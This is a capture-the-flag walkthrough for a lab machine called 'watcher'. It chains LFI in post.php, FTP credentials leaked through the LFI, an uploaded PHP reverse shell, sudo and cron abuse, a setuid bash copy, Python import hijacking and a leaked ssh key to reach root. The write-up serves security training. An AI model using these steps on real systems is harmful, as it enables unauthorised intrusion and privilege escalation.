 # Enumeration

Starting with nmap
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-15 23:07 IST
Nmap scan report for 10.10.12.184
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Corkplacemats
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.50 seconds
```
Looking at the results, we have port 21,22 and 80 open. There's no anonymous access to FTP, so we'll start with webserver i.e. port 80

### Port 80

Looking at the page, we have website featuring some merchandise. Looking at good old *robots.txt*, we saw 

![image](https://user-images.githubusercontent.com/43528306/141828453-86f20ece-6598-44cd-b4fd-11b3dc14423e.png)

The first file gave us the flag1. But looking at second file, we got 403.

Going back to webpage, we can check the products. The URL for the product page was `/post.php?post=stripped.php`. This parameter was vulnerable to LFI

![image](https://user-images.githubusercontent.com/43528306/141828937-3e14b981-2f82-41b7-871e-b5d27e87293b.png)

The first thing that came to mind, LFI to RCE, but we were not able to get any log files or session files. Since we were not able to read the second file (in robots.txt), we can try to reading it through LFI

![image](https://user-images.githubusercontent.com/43528306/141829084-ad451fae-1a69-43fe-bb6e-a5fb2cbe1c4b.png)

```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:givemefiles777
```

The file provided us the credentials to access FTP, also the location where files from FTP are saved.

### Port 21:
Logging in with the credentials, we saw
```bash
Name (10.10.12.184:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
```

The `files` directory was writable for us, so we can try uploading a simple PHP reverse-shell.
```bash
ftp> put shell.php
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Nov 15 18:00 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
-rw-r--r--    1 1001     1001           29 Nov 15 17:53 shell.php
-rw-r--r--    1 1001     1001           33 Nov 15 17:59 test.php
```
We can now access this file using the LFI Vulnerability and setup the listner and we have shell on the box.

## Shell as www-data
We got shell on the box as *www-data*.
```bash
www-data@watcher:/var/www/html$ id;whoami
id;whoami
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
```
The applicaton was vulnerable because of application includes the file directly from post request without any sanitization.
```php
<div class="row">
 <div class="col-2"></div>
 <div class="col-8">
  <?php include $_GET["post"]; ?>
 </div>
</div>
```
Looking for sudo permissions, we have permission as toby for all commands

```bash
www-data@watcher:/home/mat$ sudo -l
sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL

www-data@watcher:/home/mat$ sudo -u toby bash
```

## Shell as toby
```bash
toby@watcher:~$ ls
flag_4.txt  jobs  note.txt
toby@watcher:~$ cat note.txt 
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
According to note, *Mat*, another user, left a cron job running. Looking at the cronjobs, we saw the `cow.sh` file was running every minute. Looking at file, it was owned
by us `toby`. So we can easily modify the script to give us shell.
```bash
toby@watcher:~/jobs$ ls -la
total 12
drwxrwxr-x 2 toby toby 4096 Dec  3  2020 .
drwxr-xr-x 7 toby toby 4096 Nov 15 18:13 ..
-rwxr-xr-x 1 toby toby   46 Dec  3  2020 cow.sh

toby@watcher:~/jobs$ echo 'cp /bin/bash /tmp/mats; chmod +xs /tmp/mats' > cow.sh
toby@watcher:~/jobs$ /tmp/matsh -p
```

## Shell as Mat
We got shell as *Mat*, there's another `note.txt` in the home directory. Looking at the contents of it
```bash
mat@watcher:~$ cat note.txt 
Hi Mat,

Ive set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will

# Checking for sudo perms
mat@watcher:~$ sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```
We have sudo rights to run the script as *will* user. Looking at `/scripts` directory, we have two files. One, `cmd.py` which was owned by Mat, and the other one `will_script.py` owned by Will.
Looking at `will_script.py`

```python
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```
The python script was importing function *get_command* from cmd.py file. As we own the *cmd.py* file we can change the content for our benefits. 
```python
# Original Script

mat@watcher:~/scripts$ cat cmd.py 
def get_command(num):
    if(num == "1"):
        return "ls -lah"
    if(num == "2"):
        return "id"
    if(num == "3"):
        return "cat /etc/passwd"
```
*Modified:*
```python
mat@watcher:~/scripts$ cat cmd.py 
import os

def get_command(num):
    os.system('bash')

    if(num == "1"):
        return "id"
```
Now, if we run the *will_script.py* file, it will include our modified *cmd.py* file and will give us a shell.

## Shell as Will
```bash
will@watcher:~$ id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
```
Will was part of `adm` group. Searching for files owned by this group using `find / -group adm -ls 2>/dev/null`, we got backups file in `/opt` directory.
```bash
will@watcher:/opt$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Dec  3  2020 .
drwxr-xr-x 24 root root 4096 Dec 12  2020 ..
drwxrwx---  2 root adm  4096 Dec  3  2020 backups

will@watcher:/opt/backups$ ls -la
total 12
drwxrwx--- 2 root adm  4096 Dec  3  2020 .
drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
-rw-rw---- 1 root adm  2270 Dec  3  2020 key.b64
```
We have a base64 encoded key file. Decoding which, we got private ssh keys. Save it to local machine, changing the permissions of the file `chmod 600 key` and we can ssh as root on the box
And we got ROOT!!



